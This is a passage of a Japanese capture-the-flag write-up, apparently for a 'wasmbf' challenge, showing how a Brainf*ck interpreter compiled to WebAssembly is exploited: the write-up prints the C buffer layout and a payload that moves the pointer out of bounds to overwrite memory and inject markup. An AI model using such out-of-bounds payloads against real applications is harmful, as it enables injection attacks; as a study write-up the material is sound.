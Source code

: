 ```c
unsigned char buffer[BUFFER_SIZE] = {0};
unsigned char *buffer_pointer = buffer;
unsigned char memory[MEMORY_SIZE] = {0};
```

### ペイロードの作成
まず [Brainfuck text generator](https://copy.sh/brainfuck/text.html) という大変便利なツールを使って `=s=test=s=` を出力するような Brainf\*ck コードを生成します。

```
----[---->+<]>--.---[->++<]>-.+[-->+<]>+++.---[->++<]>.+++[->+++<]>.[--->+<]>----.+.[-->+<]>+++.---[->++<]>-.+[-->+<]>+++.
```

Google Chrome の DevTools を使って `main.wasm` を逆アセンブルし、以下のように `initialize` 関数の処理を `main.c` と比較すると `memory` と `buffer` の位置関係がわかります。これを使って `=` を `<` と `>` に上書きしてやりましょう。

```c
WASM_EXPORT
void initialize() {
  buffer_pointer = buffer;
  for (int i = 0; i < BUFFER_SIZE; i++) {
    buffer[i] = '\0';
  }
  for (int i = 0; i < MEMORY_SIZE; i++) {
    memory[i] = '\0';
  }
  for (int i = 0; i < PROGRAM_MAX_SIZE; i++) {
    program[i] = '\0';
  }
}
```

![main.wasmの逆アセンブル結果](../images/2020-12-28_wasmbf.png)

以下のような Brainf\*ck コードを実行すると、斜線の入った `test` が表示されました。

```
----[---->+<]>--.---[->++<]>-.+[-->+<]>+++.---[->++<]>.+++[->+++<]>.[--->+<]>----.+.[-->+<]>+++.---[->++<]>-.+[-->+<]>+++.
<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<
->>+>>>>>->>+
```
